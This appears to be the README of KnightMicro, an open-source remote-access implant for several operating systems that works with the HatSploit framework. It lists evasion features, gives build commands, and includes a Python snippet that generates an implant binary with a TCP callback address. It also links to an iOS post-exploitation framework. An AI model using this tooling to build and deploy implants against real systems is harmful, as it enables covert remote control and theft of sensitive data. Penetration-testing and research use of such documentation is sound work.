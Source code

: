 # Friendly like a Pony

```shell
                    /
               ,.. /
             ,'   ';
  ,,.__    _,' /';  .
 :','  ~~~~    '. '~
:' (   )         )::,
'. '. .=----=..-~  .;'
 '  ;'  ::   ':.  '"
   (:   ':    ;)
    \\   '"  ./
     '"      '"
```

KnightMicro is an implementation of an advanced payload written in pure C and designed for portability and extensibility.

This repository contains KnightMicro, which is supposed to work on *MacOS*, *Linux*, *Windows* and *iOS*, but can be ported to almost every POSIX system. KnightMicro is optimized to work with or without [HatSploit Framework](https://github.com/EntySec/HatSploit).

## Features

* Portable C code that can be compiled for a big range of targets.
* Support for *macOS*, *Linux*, *Windows* and *iOS* targets.
* Small executable with low resource utilization optimized for embedded systems.
* Dynamically-extendable, supports loading plugins (TABs) which extend its functionality.
* Evasion techniques such as process migration and in-memory loading.

## Installing

To install KnightMicro you simply need to install [HatSploit Framework](https://github.com/EntySec/HatSploit) and this will make KnightMicro available automatically.

```python
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building

**Building dependencies:**

```
make TARGET=<target>
```

**NOTE:** For *macOS / iOS* targets you are required to set `SDK` to the desired SDK path before running `make`. For example:

```
make TARGET=<target> SDK=<path>
```

You can find list of supported `TARGET` values for different platforms.

<details>
    <summary>Linux</summary><br>
    <code>aarch64-linux-musl</code><br>
    <code>armv5l-linux-musleabi</code><br>
    <code>armv5b-linux-musleabi</code><br>
    <code>i486-linux-musl</code><br>
    <code>x86_64-linux-musl</code><br>
    <code>powerpc-linux-muslsf</code><br>
    <code>powerpc64le-linux-musl</code><br>
    <code>mips-linux-muslsf</code><br>
    <code>mipsel-linux-muslsf</code><br>
    <code>mips64-linux-musl</code><br>
    <code>s390x-linux-musl</code><br>
    <br>
</details>

<details>
    <summary>Windows</summary><br>
    <code>x86_64-w64-mingw32</code><br>
    <code>x86_64-w64-mingw32</code><br>
    <br>
</details>

<details>
    <summary>MacOS / iOS</summary><br>
    <code>arm-iphone-darwin</code><br>
    <code>aarch64-iphone-darwin</code><br>
    <code>i386-apple-darwin</code><br>
    <code>x86_64-apple-darwin</code><br>
    <code>aarch64-apple-darwin</code><br>
    <br>
</details>

**Building sources:**

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -B build
cmake --build build
```

**NOTE:** For *MacOS / iOS* targets you are required to set `CMAKE_OSX_SYSROOT` to the desired SDK path with `-D`. For example:

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -DCMAKE_OSX_SYSROOT=<path> -B build
```

**NOTE:** Toolchains are located at `toolchain/cmake/`.

These are other `cmake` build options:

* `MAIN` - Should be `ON` if you want to build a source file to executable.
* `SOURCE` - Custom executable source file (default are in `src/main/`).
* `DEBUG` - Should be `ON` if you want to build KnightMicro in debug mode.
* `BUNDLE` - Build as bundle (macOS specific flag, adds `-bundle`)

## Basic usage

To use KnightMicro and build payloads you should import it to your source.

```python3
from KnightMicro import KnightMicro
from KnightMicro.session import KnightMicroSession
```

* `KnightMicro` - KnightMicro object that is used to generate payload implant.

```python3
KnightMicro = KnightMicro(
    target='aarch64-apple-darwin',
    options={
        'uri': 'tcp://127.0.0.1:8888'
    }
)

with open('payload.exe', 'wb') as f:
    f.write(KnightMicro.to_binary())
```

* `KnightMicroSession` - Wrapper for `HatSploitSession` for KnightMicro, HatSploit should use it with KnightMicro payload. It might also be used without HatSploit as demonstrated in `examples/listener.py`.

## Projects

* [SeaShell Framework](https://github.com/EntySec/SeaShell) - iOS post-exploitation framework that enables you to access the device remotely, control it and extract sensitive information. SeaShell actively uses KnightMicro implant to communicate with iOS.

## Caveats

The code provided in this repository has not yet been prepared for use in a production environment. It can be improved, so any contribution is welcome. You can even experience memory leaks, so we'll be glad to accept every single PR which is fixing a potential issue.

# Thanks To
>- EntySec